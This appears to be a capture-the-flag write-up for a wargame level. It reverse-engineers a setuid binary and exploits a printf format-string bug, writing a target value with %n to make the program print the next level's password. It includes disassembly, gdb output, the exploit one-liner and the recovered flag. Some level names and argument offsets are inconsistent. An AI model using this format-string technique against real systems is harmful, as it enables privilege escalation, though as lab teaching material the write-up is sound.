

# Level 3

## Setup
We find a binary file at the root of the user **`level5`** named *`./level5`*.

To analyze the binary file we copy it to our own environment with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level5@localhost:/home/user/level5/level5 .
```

### Radare2

I am running `r2` inside docker.
```bash
docker run -it -v "$bin_file_path":/mnt/binary radare/radare2 bash -c "r2 /mnt/binary"
```

## Binary Analysis

On the `r2` prompt we need to run a couple of commands to analyze the `main` function.
```bash
[0x08048de8]> aaa # Automatically analyze the binary
...
[0x08048ec0]> V # Enter visual mode
```

<p align="center">
   
</p>

### Code with addresses
```assembly
0x08048444 ; =============== S U B R O U T I N E =======================================
0x08048444
0x08048444 ; Attributes: bp-based frame
0x08048444
0x08048444                 public p
0x08048444 p               proc near               ; CODE XREF: n+31↓p
0x08048444
0x08048444 arg_0           = dword ptr  8
0x08048444
0x08048444 ; __unwind {
0x08048444                 push    ebp
0x08048445                 mov     ebp, esp
0x08048447                 sub     esp, 18h
0x0804844A                 mov     eax, [ebp+arg_0]
0x0804844D                 mov     [esp], eax
0x08048450                 call    _printf
0x08048455                 leave
0x08048456                 retn
0x08048456 ; } // starts at 8048444
0x08048456 p               endp
0x08048456
0x08048457
0x08048457 ; =============== S U B R O U T I N E =======================================
0x08048457
0x08048457 ; Attributes: bp-based frame
0x08048457
0x08048457                 public n
0x08048457 n               proc near               ; CODE XREF: main+6↓p
0x08048457
0x08048457 var_208         = byte ptr -208h
0x08048457
0x08048457 ; __unwind {
0x08048457                 push    ebp
0x08048458                 mov     ebp, esp
0x0804845A                 sub     esp, 218h
0x08048460                 mov     eax, ds:stdin@@GLIBC_2_0
0x08048465                 mov     [esp+8], eax
0x08048469                 mov     dword ptr [esp+4], 200h
0x08048471                 lea     eax, [ebp+var_208]
0x08048477                 mov     [esp], eax
0x0804847A                 call    _fgets
0x0804847F                 lea     eax, [ebp+var_208]
0x08048485                 mov     [esp], eax
0x08048488                 call    p
0x0804848D                 mov     eax, ds:m
0x08048492                 cmp     eax, 1025544h
0x08048497                 jnz     short locret_80484A5
0x08048499                 mov     dword ptr [esp], offset aBinCatHomeUser ; "/bin/cat /home/user/level5/.pass"
0x080484A0                 call    _system
0x080484A5
0x080484A5 locret_80484A5:                         ; CODE XREF: n+40↑j
0x080484A5                 leave
0x080484A6                 retn
0x080484A6 ; } // starts at 8048457
0x080484A6 n               endp
0x080484A6
0x080484A7
0x080484A7 ; =============== S U B R O U T I N E =======================================
0x080484A7
0x080484A7 ; Attributes: bp-based frame fuzzy-sp
0x080484A7
0x080484A7 ; int __cdecl main(int argc, const char **argv, const char **envp)
0x080484A7                 public main
0x080484A7 main            proc near               ; DATA XREF: _start+17↑o
0x080484A7
0x080484A7 argc            = dword ptr  8
0x080484A7 argv            = dword ptr  0Ch
0x080484A7 envp            = dword ptr  10h
0x080484A7
0x080484A7 ; __unwind {
0x080484A7                 push    ebp
0x080484A8                 mov     ebp, esp
0x080484AA                 and     esp, 0FFFFFFF0h
0x080484AD                 call    n
0x080484B2                 leave
0x080484B3                 retn
0x080484B3 ; } // starts at 80484A7
0x080484B3 main            endp
0x080484B3
```

### Source

The equivalent program in C would be:
```C

#include <stdio.h>
#include <stdlib.h>

int m = 0;

int p(int buffer) {
    return (printf(buffer));
}

int n()
{
  int eax;      // EAX
  char v1[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(v1, 512, stdin);
  p(v1);
  eax = m;
  if ( m == 16930116 )
    return system("/bin/cat /home/user/level5/.pass");
  return eax;
}
int main() {
    int eax;

    n();
    return (eax);
}
```

We can see that this time we have, an `fgets()` function instead of a `gets()` function, which is protected against *buffer overflow*. And also a global variable `m`, which is what determines if we can access the `system("/bin/cat /home/user/level5/.pass")`.


### Permissions
As we can see in the permissions of the executable file, the binary `./level4` is executed with the privileges of the user **level5**, the owner of the file.
```bash
level4@RainFall:~$ ls -l level4 
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```

## Reverse Engineer

After our input gets captured by the `fgets` function into the buffer, it prints it directly to the `printf` function as unique parameter `printf(buffer)`. This means that we can input format strings for printf and they will be executed.
```
Input:
AAAA %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x

Breakpoint 1, 0x0804847f in n ()
(gdb) x/s $eax
0xbffff440:	 "AAAA %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x %#x\n"
(gdb) x/8xw $eax
0xbffff440:	0x41414141	0x78232520	0x78232520	0x78232520
0xbffff450:	0x78232520	0x78232520	0x78232520	0x78232520
(gdb) continue
Continuing.

AAAA 0xb7ff26b0 0xbffff684 0xb7fd0ff4 0 0 0xbffff648 0x804848d 0xbffff440 0x200 0xb7fd1ac0 0xb7ff37d0 [0x41414141 0x78232520 0x78232520 0x78232520 0x78232520 0x78232520 0x78232520]
```
As we see here, the *input string* (or the *buffer*) is stored on the `EAX` register and when `printf` executes the *format specifiers* `%x`, retreiving values from the stack (as it doesn't has any parameter to retreive from), we can identify our *input string* `0x41414141 0x78232520 0x78232520 0x78232520 0x78232520 0x78232520 0x78232520` on the **12th** *format specifier* / *argument*.

There is one *format specifier* in `printf` that allow us to store the **number of characters** written so far, into the integer pointed to by the corresponding argument: `%n`. We can specify in which argument we want this **number of characters** to be stored in, by specifying it like this: `%<argumentNumber>$n`.

```bash
(gdb) set disassembly-flavor intel
(gdb) disassemble n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   ebp
   0x08048458 <+1>:	mov    ebp,esp
   0x0804845a <+3>:	sub    esp,0x218
   0x08048460 <+9>:	mov    eax,ds:0x8049804
   0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:	lea    eax,[ebp-0x208]
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
(gdb) info variables m
All variables matching regular expression "m":
0x08049810  m
```

Our input begins on the **12th** "argument" of `printf`, so we can specify the address where we want to store the **number of characters** on our input and use `%11$n`.

We need the *global variable* `m` (in the address `0x08049810`) to be equal to *16930116* to get access to the passw file with `system("/bin/cat /home/user/level5/.pass")`. So in order to write the number *16930116* on the variable, we can use the `%n` specifier and compose an *input string* of *16930116* bytes or characters.

```bash
0x08049810 --> \x10\x98\x04\x08
\x10\x98\x04\x08 + padding of 16930112 characters with %16930112c + %12$n
```

### Solution

We can execute the `printf` buffer to store the number *16930116* on the address `0x08049810` where the `m` variable is with this line. Of course, because we are running a shell through a pipe, we can keep the `stdin` open like the same trick from the last level:
```bash
$ (printf '\x10\x98\x04\x08' && echo '%16930112c%12$n' ) | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
